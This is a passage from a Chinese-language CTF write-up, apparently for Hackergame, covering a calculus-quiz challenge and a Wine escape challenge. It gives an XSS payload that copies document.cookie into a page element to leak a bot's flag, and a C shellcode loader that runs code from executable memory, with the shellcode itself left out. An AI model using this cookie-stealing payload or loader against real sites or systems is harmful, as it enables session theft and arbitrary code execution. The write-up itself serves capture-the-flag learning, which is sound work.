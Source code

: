 做完后我也觉得需要一个 `std:embed`

## 微积分计算小练习

阅读后端代码，发现逻辑是在打开页面之前把 flag 藏到了 `document.cookie` 里，这很显然就是 XSS 攻击了

`bot.py` 中最后打印出的值是：

```python
greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
score = driver.execute_script(f"return document.querySelector('#score').textContent")
```

所以我们构造脚本，提前把元素内容改成 `cookie` 值就可以了

姓名输入 `<img src=1 onerror="document.querySelector('#greeting').textContent=document.cookie">`

随后提交 url 即可获取 flag

## 杯窗鹅影

最近刚把主力环境切换成 WSL，所以一开始没做这道题，但稍微看了看 Wine 之后发现原理很简单：

Wine 能够在 Linux 上执行 Windows 程序的原理是封装了 WinAPI，但与此同时 Wine 并没有禁止 Linux syscall，所以想办法执行 Linux 系统调用即可

谷歌搜索 Wine + Linux syscall 可以得到一串代码：

```c
#include <stdio.h>
#include <windows.h>

unsigned char shellcode[] =
    "......";

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine, int nShowCmd) {
    LPVOID exec_buffer = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT,
                                      PAGE_EXECUTE_READWRITE);
    void (*pcode)() = (void (*)())exec_buffer;

    memcpy(exec_buffer, shellcode, sizeof(shellcode));
    pcode();

    return 0;
}
```

两问只要根据需要替换 `shellcode` 就可以了

第一问搜索 read file shellcode

![image-20221025113409348](hackergame/image-20221025113409348.png)
